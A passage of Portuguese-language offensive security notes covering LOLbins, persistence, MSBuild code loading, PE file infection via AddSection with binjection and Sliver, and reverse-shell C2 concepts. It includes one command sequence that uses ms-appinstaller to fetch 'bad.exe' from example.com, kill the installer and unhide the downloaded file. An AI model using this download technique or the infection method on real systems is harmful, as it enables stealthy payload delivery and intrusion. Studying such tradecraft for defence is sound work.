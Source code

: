 
#### LOLbins

LOLbins, ou binários "living off the land", são essencialmente utilitários ou executáveis nativos que vêm por padrão com o sistema operacional e podem ser usados de alguma forma por um invasor.

- Windows https://lolbas-project.github.io/#
- Linux https://gtfobins.github.io/

Outras maneiras pelas quais a defesa pode detectar essas ferramentas, digamos, se os arquivos foram renomeados, é verificando o campo de nome na estrutura IMAGE_EXPORT_DIRECTORY de um PE de destino, que mostrará o nome com o qual o módulo foi compilado, mesmo que o arquivo tenha sido renomeado.

Existem muitos utilitários de sistema padrão para fins de persistência legítima, como serviços, tarefas agendadas e locais de inicialização automática na maioria dos sistemas operacionais. Ainda assim, os invasores devem estar familiarizados com os tradicionais pontos de extensibilidade de inicialização automática, ou locais ASEP, pois geralmente são rápidos e fáceis de usar em caso de emergência.

Um LOLbin popular para persistência indireta e carregamento de código na memória é o
MSBuild que  pode carregar arquivos C# e em seguida, carregar assemblies na memória. Também podemos ver o LOLbin do MSBuild sendo usado para movimentação lateral em algumas situações.

Outro muito usado de forma abusiva era o certutil.exe, que é usado como uma forma de baixar mais ferramentas para o host. Outra maneira menos conhecida de baixar arquivos no Windows 10 é usar o utilitário AppInstaller.exe.

A linha de comando a seguir baixará um arquivo para ```%LOCALAPPDATA%\Packages\
Microsoft.DesktopInstaller_8wekyb3dbbwe\AC\INetCache\```. Depois encerra o AppInstaller com taskkill e por ultimo "unhide" no arquivo quando terminar o download.

```
> start ms-appinstaller://?source=https://example.com/bad.exe &&
timeout 1 && taskkill /f /IM AppInstaller.exe > NUL

> attrib -h -r -s /s /d %LOCALAPPDATA%\Packages\Microsoft.DesktopAppIns
taller_8wekyb3d8bbwe\AC\INetCache\*
```

#### Executable file infection

Existe uma técnica de segurança de computadores mais antiga, conhecida como executable file infection, que envolve a modificação de um arquivo executável de forma que você possa sequestrar sua execução em tempo de execução. 

Analisaremos uma técnica de sequestro de execução notavelmente simples no Windows, conhecida como AddSection. Com essa técnica, o novo código é simplesmente adicionado como uma nova seção ao PE e o ponto de entry point no header do PE é alterado para apontar para essa nova seção. Podemos ver essa técnica em ação no binjection no arquivo inject_pe.go , especificamente na linha 73 (https://github.com/Binject/binjection/blob/da1a50d7013df5067692bc06b50e7dca0b0b428d/bj/inject_pe.go#L73).

Felizmente para nós, o Sliver implementou a biblioteca binject em sua estrutura pós-exploração.


### Covert command and control channels

Quando pensamos em nossos implantes recebendo comandos, frequentemente os imaginamos calling back do ambiente alvo para nossa infraestrutura. Isso ocorre porque as conexões de saída geralmente conseguem atravessar gateways e firewalls de rede com mais facilidade, sem serem bloqueadas ou precisarem de uma tradução de endereço de rede (NAT) especial. Esse fluxo de tráfego de rede é geralmente chamado de shell reverso ou outbound connection. 
